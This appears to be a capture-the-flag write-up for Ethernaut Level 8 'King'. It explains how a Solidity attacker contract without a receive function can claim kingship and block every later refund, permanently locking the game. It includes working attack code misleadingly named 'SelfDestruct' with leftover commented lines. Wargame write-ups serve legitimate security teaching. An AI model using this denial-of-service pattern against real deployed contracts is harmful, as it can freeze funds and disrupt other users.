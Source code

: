 
# Ethernaut Level 8 King
- This level is King Problem, where any one can become king by placing the value more than current prize.
- For current prize, the previous prize owner will get transferred the amount.
- To solve this level, we can write our attack solidity code where we omit the receive function.
- It will make the transfer function to send the prize owner but our contract has no receive function so our contract will remain as king.

# Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SelfDestruct{
    address owner;
    constructor(){
        owner = msg.sender;
    }
    function attack(address  _receipient) payable external{
        // require(address(this).balance > 0,"balance must be greater than 0");
        (bool success,) = payable(_receipient).call{value: msg.value}("");
        // selfdestruct(_receipient);
        require(success);
    }
}
 
```
 



